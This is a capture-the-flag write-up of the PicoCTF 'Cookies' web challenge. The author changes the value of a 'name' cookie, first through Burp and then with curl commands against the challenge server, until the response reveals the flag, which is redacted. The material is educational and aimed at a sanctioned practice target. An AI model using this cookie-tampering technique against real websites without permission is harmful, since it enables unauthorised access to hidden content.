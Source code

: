 ```yaml
---
title: PicoCTF - Cookies
date: 2023-12-08
categories: [PicoCTF, Web Exploitation]
tags: [picoctf, web-exploitation, cookies, http-requests, burp-suit, curl]
img_path: /assets/picoctf/web_exploitation/cookies
published: true
---
```


![](cookie_banner.png){: width='60%' }

Visiting the link:

![](home.png){: width='60%' }

Putting `snickerdoodle` as input results to:

![](snickerdoodle_cookie.png)

Intercepting the traffic with Burp and refreshing the page:

![](0_snickerdoodle.png)

We have a cookie called `name` set to value `0`. Playing around with different cookie values results to different responses, including the flag:

![](1_choc.png)

![](2_oat.png)

![](18_flag.jpg)

![](28_mac.png)

We can also do the same process using `curl`:

```shell
# getting the head info
curl http://mercury.picoctf.net:29649/ -I
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 209
Location: http://mercury.picoctf.net:29649/
Set-Cookie: name=-1; Path=/
```

We can see there there is a cookie called `name` with the value of `-1`. We can set our own value and see what happens:

```shell
# setting cookie's value to 0
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=0;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
```

```shell
# setting cookie's value to 1
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=1;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
```

```shell
# setting cookie's value to 18
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
```

We notice that when the cookie to `name=18` it does not return any cookie back! We can inspect the full response:

```shell
# getting the full response back
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{<SNIP>}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```